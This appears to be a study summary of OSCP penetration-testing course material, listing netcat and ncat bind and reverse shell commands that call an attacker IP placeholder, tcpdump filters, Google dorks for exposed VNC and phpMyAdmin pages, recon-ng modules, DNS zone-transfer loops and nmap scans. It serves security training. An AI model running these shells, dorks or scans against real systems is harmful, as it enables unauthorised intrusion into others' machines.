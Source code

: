 # OSCP
Summary of the OSCP course material.
See "OSCP_Cheatsheet" for lab/exam specific cheatsheet.

# Index

- [Introduction](#introduction) 

# Content

### ============================================================
### Introduction
### ============================================================


### ============================================================
### Essential Tools
### ============================================================

**Netcat**  
Basics
```bash
nc -nlvp [port]          # set up listener
nc -nv [IP] [port]       # banner grabbing OR connect to remote port
```
File Transfer
```bash
nc -nlvp [port] > incoming.exe          # VIC: set up listener, direct data to incoming.exe
nc -nv [IP] [port] < /path/to/wget.exe  # ATT: push wget.exe file to VIC
```
Bind Shell: bind executable (e.g. cmd.exe) to a local port (typically victim machine)
```bash
nc -nlvp [port] -e cmd.exe  # VIC: set up listener + bind cmd.exe to local port
nc -nv [VIC IP] [port]   # ATT: attacker connects and is presented with cmd prompt
```
Reverse Shell: victim box connect to attacker box
```bash
nc -nvlp [port]                       # ATT: attacker set up listener
nc -nv [ATT IP] [port] -e /bin/bash   # VIC: attacker sends reverse shell to their box
```

**Ncat**  
Ncat is an improved version of the Netcat tool, with SSL encryption + ability to whitelist access to specific IP's.

Secure Bind Shell:
```bash
ncat -lvp 4444 -e cmd.exe --allow [IP] --ssl   # Box A: set up listener, allow on connections from only IP, SSL-encrypted.
ncat -v 10.11.14.143 4444 --ssl                # Box B: connect to Box A, SSL-encrypted.
```

**Tcpdump**

Analyse traffic from file (.pcap etc.) + show data in hex and ASCII
```bash
tcpdump -nX -r filename.pcap
```

Analyse and filter traffic:
```bash
tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap   # src filter
tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap   # dest filter
tcpdump -n port 81 -r password_cracking_filtered.pcap                 # port filter
```


### ============================================================
### Passive Info Gathering
### ============================================================

**Google Hacking**

More with Google Hacking Database https://www.exploit-db.com/google-hacking-database/

```bash
site:"microsoft.com" -site:"www.microsoft.com"            # list subdomains of Microsoft.com
site:"microsoft.com" filetype:ppt "penetration testing"   # list .ppt files with term "penetration testing"
intitle:"VNC viewer for Java"                             # list pages with a open VNC access pages
inurl:"/control/userimage.html"                           # list pages which contain file "/control/userimage.html"
inurl:.php? intext:CHARACTER_SETS,COLLATIONS intitle:phpmyadmin # list pages with post-authenticated db admin page.
```

**Recon-ng**

Basic usage:
```bash
recon-ng                                # access recon-ng
use recon/path/to/module                # use module
set SOURCE uber.com                     # set source target
run                                     # run module
```

Some useful modules:
```bash
recon/domains-contacts/whois_pocs       # find employee names and email addresses
recon/domains-vulnerabilies/xssed       # find existing XSS vulnerabilities
recon/domains-hosts/google_site_web     # find subdomains via. Google search
```

### ============================================================
### Active Info Gathering
### ============================================================

**DNS Enumeration**

Forward DNS lookup:
```bash
for name in $(cat list.txt); do
    host $name.megacorp.com | grep 'has address' | cut -d" " -f1,4
done
```

Reverse DNS lookup:
```bash
for ip in $(seq 72 91); do
    host 38.100.193.$ip | grep 'megacorp' | cut -d" " -f1,5
done
```

Zone transfers: "database replication" between related DNS servers / copy the list of all dns names configured for one zone to a secondary DNS server
```bash
# For each nameserver of an input domain, perform a zone transfer
for server in $(host -t ns $1 | cut -d" " -f4); do
    host -l $1 server | grep 'has address'
done
```

**Port Scanning**

Three types of scans:
1. TCP Connect: attempts to complete a 3-way handshake with the target.
2. Stealth/SYN: sending only SYN packets without completing the 3-way handshake.
3. UDP: empty UDP packet is sent to the target. No response = open. ICMP port unreachable response = closed.

Port scanning pitfalls:
* UDP scanning is unreliable. Firewalls/routers drop ICMP packets, leading to false positives saying UDP port is OPEN.
* Don't forget to scan for UDP services.

Nmap scanning:
```bash
nmap -sn 10.11.1.1-254                   # network sweep: identify live hosts in a network
nmap -p 80 10.11.1.1-254                 # network sweep: identify hosts with OPEN port 80
nmap -sT -A --top-ports=20 10.11.1.1-254 # network sweep: identify hosts with OPEN top 20 ports

nmap -O 10.0.0.19                        # OS fingerprinting
nmap -sV -sT 10.0.0.19                   # Service enumeration / banner grabbing

nmap 10.0.0.19 --script smb-os-discovery.nse                # Connect to SMB service on a target + determine OS version
nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com   # Perform a DNS zone transfer
```






